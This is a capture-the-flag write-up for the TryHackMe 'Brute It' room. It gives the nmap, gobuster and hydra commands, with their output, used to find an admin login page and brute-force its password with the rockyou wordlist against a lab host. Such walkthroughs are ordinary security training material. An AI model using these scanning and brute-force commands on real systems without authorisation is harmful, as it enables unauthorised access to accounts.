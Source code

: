 ## Brute It | TryHackMe

This is the link for the room [Brute It](https://tryhackme.com/room/bruteit)

<img src="https://user-images.githubusercontent.com/67650329/217137381-3c67f2a8-a1bb-4b77-9882-53356133e60c.png" width="250px" align="center">

---
Learn how to brute, hash cracking and escalate privileges in this box!

Let's Go.

`nmap -sS -sV [TARGET]`

- -sS = TCP SYN scan.
- -sV = Version of services.

This is the result for the scanning with nmap tools.
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-11 00:07 EST
Nmap scan report for TARGET
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port open:

- 22 = SSH.
- 80 = http.

After we got the open port. We can search directory with gobuster tools.

`gobuster dir -u [TARGET] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -n -t 250`

- -u = Url Target.
- -w = Wordlist.
- -f = Nospam.
- -n = No Status just result (Nospam).
- -t = Thread.

This is the result for the scanning with gobuster tools.
```
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.164.83
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Add Slash:               true
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/01/11 00:09:01 Starting gobuster in directory enumeration mode
===============================================================
/admin/               [Size: 671]
```
We got the admin login page. After that i think we can try use burp suite.
```
POST /admin/ HTTP/1.1
…
…
…
user=asd&pass=asd
```
We can see user and pass is display on request.

So we can try brute force it use hydra.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz [TARGET] http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"`

- -l = Specify a username.
- -P = Wordlist.
- http-post-form = Specify the type of login form used in a web application attack.

This is the result for the brute force with hydra tools.
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-11 00:19:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.164.83:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[80][http-post-form] host: 10.10.164.83   login: admin   password: x***r
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-11 00:20:32
```
We got the password and We are in to the admin dashboard.

<img src="https://user-images.githubusercontent.com/67650329/217141154-4bb95800-9762-4daa-b71a-08cfac88bca3.png" width="450px" align="center">

